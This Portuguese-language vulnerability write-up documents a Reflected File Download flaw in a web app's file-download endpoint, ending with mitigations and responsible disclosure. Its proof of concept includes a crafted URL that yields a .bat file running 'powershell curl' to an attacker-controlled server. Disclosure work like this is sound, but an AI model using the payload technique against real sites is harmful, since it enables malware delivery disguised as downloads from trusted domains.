


# Reflected File Download (RFD) – Aplicação Web

**Tipo de vulnerabilidade:** Reflected File Download (RFD)   
**Severidade:** Alta   
**Categoria:** A03:2021 – Injection / CWE-1383 ou CWE-2   

## Resumo Executivo

Durante a análise de segurança de uma aplicação web, foi identificada uma vulnerabilidade de Reflected File Download (RFD) em um endpoint responsável pelo download de arquivos.

O parâmetro file refletia diretamente dados controlados pelo usuário tanto no corpo da resposta HTTP quanto no cabeçalho Content-Disposition, permitindo manipular o nome e a extensão do arquivo baixado pelo navegador.

Explorando esse comportamento, foi possível gerar arquivos executáveis maliciosos que aparentavam ser provenientes de um domínio confiável. Esse cenário pode ser explorado para distribuição de malware ou ataques de engenharia social com maior probabilidade de sucesso.

## Reconhecimento (Reconnaissance)

Durante a fase de enumeração da aplicação, foram coletadas URLs históricas utilizando a ferramenta waybackurl, o que revelou um endpoint responsável pelo download de arquivos PDF.

Exemplo de endpoint identificado:
```text
/download?file=<nome_do_arquivo>
```
Testes iniciais demonstraram que o parâmetro file era refletido em dois locais da resposta:

- Corpo da resposta

- Cabeçalho HTTP Content-Disposition

Exemplo de resposta observada:
```text
Content-Disposition: attachment; filename="example.html"
```

Quando o arquivo solicitado não existia, a aplicação retornava uma mensagem de erro no corpo da resposta:
```text
File example.html not found
```
## Análise da Vulnerabilidade

Para compreender melhor o comportamento do parâmetro, foram testados diversos vetores de ataque comuns, incluindo:

- Path Traversal

- Local File Inclusion (LFI)

- Server-Side Request Forgery (SSRF)

- Command Injection

- Acesso não autorizado a arquivos

Como o input também era refletido em cabeçalhos HTTP, foram realizados testes adicionais para:

- CRLF Injection

- Manipulação de headers

Entretanto, essas tentativas foram bloqueadas por filtros do servidor e pelo WAF, que restringia caracteres como:
```text
< > " | \r \n
```

Apesar dessas restrições, foi observado um comportamento interessante: qualquer valor aceito pelo parâmetro file gerava automaticamente um download de arquivo no navegador.

Por exemplo:
```text
?file=aaaaaaa
```
O navegador baixava automaticamente o arquivo:

```text
aaaaaaa.html
```
Com o seguinte conteúdo:
```text
File aaaaaaa.html not found
```

Isso indicava que o servidor estava gerando dinamicamente arquivos para download com base no input do usuário.

## Controle do Nome e Extensão do Arquivo

Testes adicionais mostraram que, ao especificar uma extensão no input, o navegador respeitava essa extensão.

Exemplo:
```text
?file=test.exe
```

Resultado:
```text
test.exe
```

Isso demonstrava que a aplicação permitia controle da extensão do arquivo baixado, um requisito essencial para exploração de Reflected File Download.

## Manipulação do Nome do Arquivo via Estrutura de Caminho

Durante os testes de Path Traversal, foi observado outro comportamento relevante.

Ao enviar um caminho no parâmetro:   
```text
?file=/etc/passwd
```
O navegador salvava o arquivo como:  

```text
passwd.html
```

Enquanto o conteúdo retornado era:   

```text
File /etc/passwd.html not found
```
Isso indicava que a aplicação extraía o nome do arquivo com base no último segmento do caminho fornecido.

Exemplo de header retornado:

```text
Content-Disposition: attachment; filename="passwd.html"
```
Esse comportamento permitia controlar o nome do arquivo independentemente do conteúdo refletido.

Estrutura utilizada para construção de payloads:

```text
/<payload>/<nome>.<extensão>
```

Dessa forma, foi possível controlar:

- nome do arquivo

- extensão do arquivo

- conteúdo refletido no corpo da resposta

## Construção do Payload

O principal desafio passou a ser lidar com a mensagem de erro adicionada automaticamente ao conteúdo do arquivo:

```text
File <input> not found
```

Como não era possível remover completamente esse conteúdo, foi necessário escolher um formato de arquivo tolerante a erros de sintaxe.

O formato .bat foi escolhido devido ao seu comportamento de execução em sistemas Windows.

Em scripts batch, o caractere & funciona como separador de comandos, permitindo executar múltiplos comandos sequencialmente.

Exemplo de payload:   

```text
?file=/& test &/payload.bat
```

Durante a execução, o script seria interpretado como:
```text
File /           (comando inválido)
test             (comando controlado pelo atacante)
/payload.bat     (comando inválido)
```

Mesmo que a primeira e a última linha resultem em erro, o comando central ainda é executado com sucesso.

Essa característica permite a execução de comandos maliciosos mesmo na presença de conteúdo adicional.

## Prova de Conceito (PoC)   

1 – Preparar servidor para receber requisições

Um servidor HTTP simples pode ser iniciado utilizando Python:
```bash
python -m http.server 8080
```
2 – Criar URL maliciosa

Exemplo de URL explorando a vulnerabilidade: 

```text
http://alvo.com/download?file=/&+powershell+curl+http://127.0.0.1:8080+&+exit+&/updateChrome2026.bat
```
Observação: caracteres especiais devem ser codificados em URL encoding.



3 – Interação da vítima

Quando a vítima acessa a URL:

- O navegador realiza automaticamente o download do arquivo.

- O arquivo aparenta ser proveniente de um domínio legítimo.

- Caso a vítima execute o arquivo, o payload é executado.


Exemplo de comando executado:
```powershell
powershell curl http://attacker-server
```

Confirmando que o script foi executado com sucesso.



## Impacto

Essa vulnerabilidade permite que atacantes gerem arquivos executáveis maliciosos que aparentam ser baixados diretamente de um domínio legítimo.

Isso aumenta significativamente a eficácia de ataques de engenharia social.

Possíveis cenários de exploração incluem:

- Distribuição de malware

- Execução de comandos maliciosos na máquina da vítima

- Bypass de mecanismos de reputação baseados em domínio

- Campanhas de phishing mais convincentes

- Como o arquivo é baixado diretamente de um domínio confiável, usuários e mecanismos de segurança podem confiar mais no arquivo.

## Causa Raiz (Root Cause)

A vulnerabilidade ocorre porque dados controlados pelo usuário são refletidos diretamente no cabeçalho HTTP Content-Disposition sem validação adequada.

Isso permite que um atacante controle:

- o nome do arquivo baixado

- a extensão do arquivo

- partes do conteúdo refletido

Combinado com a geração dinâmica de respostas para downloads, esse comportamento resulta em uma vulnerabilidade de Reflected File Download.

## Mitigação
1 – Corrigir o uso do Content-Disposition

O nome do arquivo definido no cabeçalho Content-Disposition não deve ser derivado diretamente de input do usuário.

Boas práticas incluem:

- utilizar nomes fixos

- gerar nomes de arquivo no servidor

- ignorar extensões fornecidas pelo usuário

2 – Validação rigorosa de input

Implementar validação baseada em allowlist.

Por exemplo, permitir apenas arquivos com extensão esperada:  

```text
.pdf
```
Além disso, bloquear inputs contendo:

- separadores de caminho (/, \)

- caracteres de controle

- separadores de comando

- extensões inesperadas

3 – Validar existência do arquivo antes de gerar download

A aplicação deve verificar se o arquivo solicitado realmente existe antes de gerar uma resposta de download.

Caso o arquivo não exista, deve retornar um erro HTTP apropriado em vez de gerar um arquivo dinâmico.

## Responsible Disclosure

Essa vulnerabilidade foi reportada de forma responsável ao responsável pelo sistema.
Todas as informações que poderiam identificar a aplicação afetada foram removidas deste documento.